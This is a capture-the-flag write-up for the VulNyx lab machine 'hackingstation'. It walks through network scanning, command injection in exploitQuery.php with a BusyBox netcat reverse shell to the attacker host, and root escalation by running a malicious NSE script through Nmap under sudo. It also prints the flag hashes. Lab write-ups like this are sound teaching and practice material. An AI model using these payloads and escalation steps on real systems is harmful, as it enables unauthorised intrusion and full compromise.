

# hackingstation

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| hackingstation | HackCommander | Low | VulNyx |

**Summary:** The hackingstation machine exposed a single Apache web service on port 80, presenting a HackingStation application with a product query function. Interaction with the page led to the vulnerable `exploitQuery.php` endpoint, where the `product` parameter was passed into a shell context without proper sanitization. Appending a command separator and a BusyBox netcat payload to the parameter produced command execution as the local user `hacker`, and a Penelope listener received an upgraded reverse shell. Local sudo enumeration then revealed that `hacker` could execute `/usr/bin/nmap` as root without a password. Because Nmap supports NSE scripting with Lua, a short script containing `os.execute("/bin/sh")` was written to `/tmp/shell.nse` and executed through sudo. Nmap loaded the script in the root context and spawned a shell with `uid=0`, allowing direct retrieval of both the user and root flags.

---

## Reconnaissance

The assessment began by identifying the target host on the local network, then narrowing the exposed attack surface to its only listening TCP service.

1. An Nmap ping sweep located the target at `192.168.56.128`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 01:59 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00025s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0023s latency).
MAC Address: 08:00:27:C1:85:DA (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.128 (192.168.56.128)
Host is up (0.0015s latency).
MAC Address: 08:00:27:F1:F7:B8 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 6.92 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.128
```

2. A full TCP port scan showed only HTTP open:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=5000 -Pn $ip        
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 01:59 -0400
Nmap scan report for 192.168.56.128 (192.168.56.128)
Host is up (0.00019s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:F1:F7:B8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.23 seconds
```

3. Service detection identified Apache 2.4.57 serving a page titled HackingStation:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 80 -sCV $ip -T4 -Pn                 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 02:00 -0400
Nmap scan report for 192.168.56.128 (192.168.56.128)
Host is up (0.00045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: HackingStation
MAC Address: 08:00:27:F1:F7:B8 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

The target exposed no SSH or auxiliary services, making the web application the primary entry point.

---

## Web Enumeration

4. Browsing the application revealed the HackingStation interface and its product query functionality:


5. Interacting with the query feature exposed the request flow that reached `exploitQuery.php` and accepted a `product` parameter:



The behavior indicated that the product value was processed server side, so the parameter was tested for shell metacharacter injection.

---

## Initial Access

### Command Injection Reverse Shell

6. A Penelope listener was started on port 4444 to receive the reverse shell:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ penelope -p 4444                
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 10.0.2.15 • 192.168.56.104
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

7. The vulnerable endpoint was triggered with a payload that appended BusyBox netcat execution to the `product` parameter:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl "http://192.168.56.128/exploitQuery.php?product=asdsa;busybox+nc+192.168.56.104+4444+-e+/bin/sh"
```

8. Penelope received the shell and upgraded the session as user `hacker`:

```bash
[-] Invalid shell from 192.168.56.128 🙄
[+] [New Reverse Shell] => HackingStation 192.168.56.128 Linux-x86_64 👤 hacker(1000) 😍 Session ID <1>
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/HackingStation~192.168.56.128-Linux-x86_64/2026_08_16-02_06_42-850-hacker(1000).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
hacker@HackingStation:/var/www/html$ 
```

The injected command executed in the context of the application user `hacker`, providing the initial foothold.

---

## Privilege Escalation

### Nmap NSE Script Execution as Root

9. Sudo enumeration showed that `hacker` could execute Nmap as root without a password:

```bash
hacker@HackingStation:/var/www/html$ sudo -l
Matching Defaults entries for hacker on HackingStation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
hacker@HackingStation:/var/www/html$ echo 'os.execute("/bin/sh")' > /tmp/shell.nse
hacker@HackingStation:/var/www/html$ sudo /usr/bin/nmap --script=/tmp/shell.nse
Starting Nmap 7.93 ( https://nmap.org ) at 2026-08-16 08:08 CEST
# stty echo
# id;hostname
uid=0(root) gid=0(root) groups=0(root)
HackingStation
# cat /home/hacker/user.txt /root/root.txt
e34efd51251772a8abc4cc00ee52bb0a
f900f7fb7d2c5ea64deca6378ebe5ead
```

Nmap executed the custom NSE Lua script in the root context, and `os.execute("/bin/sh")` spawned an interactive root shell. The shell confirmed `uid=0` and both flags were retrieved.

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.128`, and TCP scanning showed a single Apache HTTP service on port 80.

2. **Vulnerability Discovery**: Web interaction exposed `exploitQuery.php` with a `product` parameter that accepted shell metacharacters and executed appended commands.

3. **Exploitation**: A BusyBox netcat payload was injected through the `product` parameter, creating a reverse shell as user `hacker`.

4. **Internal Enumeration**: Sudo policy showed that `hacker` could run `/usr/bin/nmap` as root without a password.

5. **Privilege Escalation**: A malicious NSE script executed `/bin/sh` through Nmap under sudo, producing a root shell and complete system compromise.
